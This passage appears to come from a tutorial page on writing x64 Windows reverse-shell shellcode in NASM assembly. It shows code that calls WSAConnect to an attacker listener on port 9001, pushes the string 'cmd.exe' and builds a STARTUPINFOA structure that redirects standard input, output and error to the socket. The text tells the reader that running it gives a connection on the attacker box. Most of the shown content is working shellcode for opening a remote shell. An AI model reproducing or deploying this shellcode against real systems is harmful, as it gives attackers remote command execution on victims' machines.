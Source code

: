 ```nasm
    push r9                     ; NULL
    add rsp, 8
    sub rsp, 0x90               ; This is somewhat problematic. needs to be a high value to account for the stack or so it seems
    call WSAConnect             ; Call WSAConnect
    add rsp, 0x30
    mov rax, 0x6578652e646d63   ; Push cmd.exe string to stack
    push rax                      
    mov rcx, rsp                ; RCX = lpApplicationName (cmd.exe)
```

There's a lot happening here.  in short here's what matters.:

> We are setting up our listening server's Port and IP.  Remember, it's in reverse.  So, port 9001 in hex is actually `0x2329`
![image](https://github.com/user-attachments/assets/47744809-af07-4e0b-b1e7-c69bf3843a0c)

> Next, we setup our listening server IP.  Same deal.  In hex, it's `0x7F` `0x00` `0x00` `0x01`

Once we execute this portion of code in our Debugger, you'll receive a connection to your attacker box listener.  Check it out:

![image](https://github.com/user-attachments/assets/c1651b3e-c1eb-4bc5-90b5-efcdb70d1d8f)
![image](https://github.com/user-attachments/assets/e2e9ab16-3260-45d6-a3c3-e9787894c8fa)

> **STARTUPINFOA Structure**

```nasm
 ; STARTUPINFOA Structure (I despise this thing!!!!)
	; https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/ns-processthreadsapi-startupinfoa
    push r13                    ; Push STDERROR
    push r13                    ; Push STDOUTPUT
    push r13                    ; Push STDINPUT
    xor rax,rax
    push rax                    ; 8 bytes -> push lpReserved2
    push rax                    ; 8 bytes -> combine cbReserved2 and wShowWindow
    push ax                     ; dwFlags 4 bytes total, first 2 bytes
    mov rax, 0x100              ; STARTF_USESTDHANDLES
    push ax                     ; continuation of the above, last 2 bytes for dwFlags
    xor rax,rax  
    push rax                    ; dwFillAttribute (4 bytes) + dwYCountChars (4 bytes)
    push rax                    ; dwXCountChars (4 bytes) + dwYSize (4 bytes)
    push rax                    ; dwXSize (4 bytes) + dwY (4 bytes)
    push ax                     ; dwX 4 bytes total, first 2 bytes
    push ax                     ; dwX last 2 bytes
    push rax                    ; 8 bytes -> lpTitle
    push rax                    ; 8 bytes -> lpDesktop = NULL
    push rax                    ; 8 bytes -> lpReserved = NULL
    mov rax, 0x68               ; total size of structure
    push rax                    
    mov rdi,rsp                 ; Copy the pointer to the structure to RDI
```
